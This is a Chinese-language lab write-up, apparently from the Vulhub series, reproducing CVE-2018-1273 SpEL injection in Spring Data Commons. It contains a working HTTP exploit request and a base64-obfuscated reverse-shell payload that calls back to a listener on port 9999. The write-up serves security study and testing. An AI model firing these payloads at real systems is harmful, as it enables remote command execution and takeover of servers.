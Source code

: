 # Spring Data Commons 远程命令执行漏洞 CVE-2018-1273

## 漏洞描述

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

Vulhub执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8080/users`，将可以看到一个用户注册页面。

![image-20220301152041573](images/202203011520665.png)

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/awesome_poc")]=&password=&repeatedPassword=
```

![image-20220301152743774](images/202203011527857.png)

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/awesome_poc`，说明命令执行成功：

![image-20220301152752322](images/202203011527377.png)

构造反弹shell的Payload（**注意**，Base64编码后需要再进行URL编码，否则将反弹失败）：

```
# URL编码前
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}

# URL编码后
bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}
```

```
# Payload
username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("bash -c {echo,YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo%3D}|{base64,-d}|{bash,-i}")]=&password=&repeatedPassword=
```

监听9999端口，成功接收反弹shell：

![image-20220301153412308](images/202203011534428.png)